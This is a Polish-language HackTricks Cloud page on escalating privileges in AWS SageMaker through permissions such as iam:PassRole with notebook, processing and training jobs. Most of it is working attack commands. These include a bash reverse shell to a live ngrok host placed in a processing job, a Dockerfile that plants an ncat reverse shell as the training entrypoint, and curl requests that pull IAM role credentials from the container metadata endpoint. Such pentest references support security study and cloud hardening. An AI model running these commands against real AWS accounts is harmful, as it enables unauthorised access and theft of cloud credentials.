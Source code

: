 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Zacznij tworzyć notatnik z rolą IAM, aby uzyskać dostęp do niego:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Odpowiedź powinna zawierać pole `NotebookInstanceArn`, które będzie zawierać ARN nowo utworzonej instancji notatnika. Możemy następnie użyć API `create-presigned-notebook-instance-url`, aby wygenerować URL, którego możemy użyć do uzyskania dostępu do instancji notatnika, gdy będzie gotowa:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Przejdź do adresu URL w przeglądarce i kliknij \`Open JupyterLab\` w prawym górnym rogu, a następnie przewiń w dół do zakładki “Launcher” i w sekcji “Other” kliknij przycisk “Terminal”.

Teraz możliwe jest uzyskanie dostępu do poświadczeń metadanych roli IAM.

**Potencjalny wpływ:** Privesc do roli usługi sagemaker określonej.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Jeśli na nim **już działają notatniki Jupyter** i możesz je wylistować za pomocą `sagemaker:ListNotebookInstances` (lub odkryć je w inny sposób). Możesz **wygenerować dla nich URL, uzyskać do nich dostęp i ukraść poświadczenia, jak wskazano w poprzedniej technice**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potencjalny wpływ:** Privesc do roli serwisowej sagemaker.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Napastnik z tymi uprawnieniami może sprawić, że **sagemaker wykona processingjob** z dołączoną rolą sagemaker. Napastnik może wskazać definicję kontenera, który będzie uruchomiony w **instancji konta ECS zarządzanego przez AWS**, i **ukraść poświadczenia dołączonej roli IAM**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potencjalny wpływ:** Privesc do roli serwisu sagemaker.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Napastnik z tymi uprawnieniami będzie mógł utworzyć zadanie treningowe, **uruchamiając dowolny kontener** na nim z **przypisaną rolą**. W związku z tym, atakujący będzie mógł ukraść poświadczenia roli.

{% hint style="warning" %}
Ten scenariusz jest trudniejszy do wykorzystania niż poprzedni, ponieważ musisz wygenerować obraz Dockera, który wyśle rev shell lub poświadczenia bezpośrednio do napastnika (nie możesz wskazać polecenia startowego w konfiguracji zadania treningowego).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potencjalny wpływ:** Privesc do roli serwisu sagemaker określonej.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Napastnik z tymi uprawnieniami będzie (potencjalnie) w stanie stworzyć **zadanie treningowe hyperparametrów**, **uruchamiając dowolny kontener** na nim z **przypisaną rolą**.\
&#xNAN;_&#x49; nie wykorzystałem z powodu braku czasu, ale wygląda to podobnie do wcześniejszych exploitów, śmiało wyślij PR z szczegółami eksploatacji._

## Odniesienia

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
